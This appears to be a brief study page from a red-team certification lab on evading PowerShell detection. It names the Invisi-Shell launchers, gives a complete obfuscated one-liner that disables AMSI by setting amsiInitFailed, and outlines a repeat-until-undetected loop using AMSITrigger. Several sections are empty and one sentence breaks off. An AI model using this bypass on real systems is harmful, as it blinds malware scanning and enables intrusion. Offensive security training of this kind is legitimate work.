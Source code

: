 ```yaml
---
description: CRTP LAB PowerShell Detections
cover: ../.gitbook/assets/RFS (2).png
coverY: 0
---
```


# 😅 PowerShell Detections

```
https://github.com/OmerYa/Invisi-Shell
```

### Using Invisi Shell

With admin privileges:

```
RunWithPathAsAdmin.bat
```

With non admin privileges:

```
RunWithRegistryNonAdmin.bat
```

### System-Wide Transcription

### Script Block Logging

### AntiMalaware Scan Interface - AMSI

{% code overflow="wrap" %}
```
S`eT-It`em ( 'V'+'aR' +  'IA' + ('blE:1'+'q2')  + ('uZ'+'x')  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    Get-varI`A`BLE  ( ('1Q'+'2U')  +'zX'  )  -VaL  )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),('.Man'+'age'+'men'+'t.'),('u'+'to'+'mation.'),'s',('Syst'+'em')  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+'nitF'+'aile')  ),(  "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+'Publ'+'i'),'c','c,'  ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )
```
{% endcode %}

### Constrained Language Mode - CLM



Steps to avoid signature based detection are pretty simple:&#x20;

1\) Scan using AMSITrigger&#x20;

2\) Modify the detected code snippet&#x20;

3\) Rescan using AMSITrigger&#x20;

4\) Repeat the steps 2 & 3 till we get a result as “AMSI\_RESULT\_NOT\_DETECTED” or “

### Tamper Protection

